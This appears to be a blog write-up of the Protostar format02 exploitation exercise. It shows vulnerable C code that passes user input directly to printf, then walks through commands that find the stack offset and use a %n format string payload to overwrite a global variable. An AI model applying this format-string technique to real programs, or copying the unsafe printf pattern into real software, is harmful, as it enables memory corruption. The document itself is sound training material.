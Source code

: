 ```yaml
---
layout: post
title: "Protostar format02 writeup"
tags: [protostar]
comments: false
---
```


We are given a source code for this challenge.

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);
  printf(buffer);
  
  if(target == 64) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %d :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

if target equals to 64 we win.
and we can see format string vulnerability happenes in printf(buffer)

Let's do what we did for format01 which is giving AAAA and looking for the offset

```
AAAA200.b7fd8420.bffff614.41414141.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.
target is 0 :(
user@protostar:/opt/protostar/bin$ (python -c print' "AAAA"+"%x."*4 ') | ./format2 
AAAA200.b7fd8420.bffff614.41414141.
target is 0 :(
```

We can see that the offset is 4

So if we change AAAA to the target variable address and change the last %x to %n we can write some values in to target

target address
```
user@protostar:/opt/protostar/bin$ objdump -t format2 | grep target
080496e4 g     O .bss   00000004              target

```

switch 
```
user@protostar:/opt/protostar/bin$ (python -c print' "\xe4\x96\x04\x08"+"%x"*3+"%n" ') | ./format2
�200b7fd8420bffff614
target is 23 :(

```

We can see that target only contains a value of 23. This happened because %n put the number of characters that were written to target so what we can do is increasing the number of characters by changing its padding size which can be like

```
%10x
```

Since 64-23 = 41 by doing some simple math we can do 

```
user@protostar:/opt/protostar/bin$ (python -c 'print "\xe4\x96\x04\x08"+"%44x"+"%x"*2+"%n"') | ./format2
�                                         200b7fd8420bffff614
you have modified the target :)
```